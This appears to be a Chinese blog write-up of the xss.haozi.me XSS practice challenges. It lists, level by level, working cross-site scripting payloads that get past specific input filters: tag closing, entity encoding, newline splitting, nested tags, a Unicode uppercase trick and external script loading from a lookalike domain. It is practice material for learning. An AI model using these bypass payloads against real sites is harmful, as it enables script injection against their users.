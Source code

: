 ```yaml
---
layout: page
title: "XSS练习"
date: 2019-10-29 01:01
---
```


[TOC]

## 实验平台
[https://curtails.github.io/xss](https://curtails.github.io/xss/)  
[https://xss.haozi.me](https://xss.haozi.me)

## xss-demo
[github](https://github.com/haozi/xss-demo/)  
[在线地址](https://xss.haozi.me)

拼凑所需语句即可不必关心原语句完整性？？浏览器容错性？？
- 0x00 `<script>alert(1)</script>` 无任何过滤
- 0x01 `</textarea><script>alert(1)</script>`闭合标签
- 0x02 `"> <script>alert(1)</script>`闭合标签
- 0x03 

```js
<script>alert`1`</script>
<svg><script>alert&#40;1&#41</script>
``` 

正则表达式过滤() 用``绕过或实体编码的字符编码
- 0x04 同0x03 

```js
<svg><script>alert&#40;1&#41</script>
<iframe onload=alert&#40;1&#41></iframe>
```
- 0x05
将-->替换成😀 html注释`<!--xxs--->`或`<!--xss--!>`
payload:`--!> <script>alert(1)</script>`

- 0x06
过滤`auto*****=`或`on*****=`替换为_ 可用换行符绕过

```js
onmousemove
=alert(1)

type=image src onerror
=alert(1)
```
- 0x07
匹配<***>字符串忽略大小写替换为空

```js
<svg/onload=alert(1) //有空格
```

- 0x08
将`</style>`替换成`/*坏人*/` 在标签>之前加个空格或换行就好了

```js
</style ><script>alert(1)</script>
</style
><script>alert(1)</script>
```

- 0x09
输入要以https://www.segmentfault.com开头 有一种payload是在网站上存在alert(1)js脚本

```js
https://www.segmentfault.com.haozi.me/j.js
```

- 0x0a
构造符合条件 只能引入外部js
```
https://www.segmentfault.com.haozi.me/j.js
```

- 0X0b
标签、域名不区分大小写
```
<script src="https://www.segmentfault.com.haozi.me/j.js"></script>
```

- 0x0c
正则替换script为空
```
<scrscriptipt src="https://www.segmentfault.com.haozi.me/j.js"></scrscriptipt>
```

- 0x0d
换行加单行注释绕过
```
 
alert(1)
-->
```

- 0x0e
正则过滤<+英文字母 转化大写  
使用`ſ` 古英语 转换为大写变成`S`
```
<ſcript src="https://xss.haozi.me/j.js"></script>
```

- 0x0f
正则过滤 但是`&#39;`解码后仍然是'也就是说这个过滤是不起作用的  
闭合括号即可
```
');alert('1   
```

- 0x10
闭合括号没什么好说的
```
'';alert(1)
```

- 0x11
javascript:console.log()js的调试功能 相当于控制台
正则过滤了好多 但也是能直接闭合
```
"),alert(1)("
```

- 0x12
直接new个script标签
```
</script><script>alert`1`;</script><script>
```
或
```
\");alert(1)//
" 被转义成 \" 经过html解析后里面变成 console.log("\") 会报语法错误, 再补个 \ 即可
```


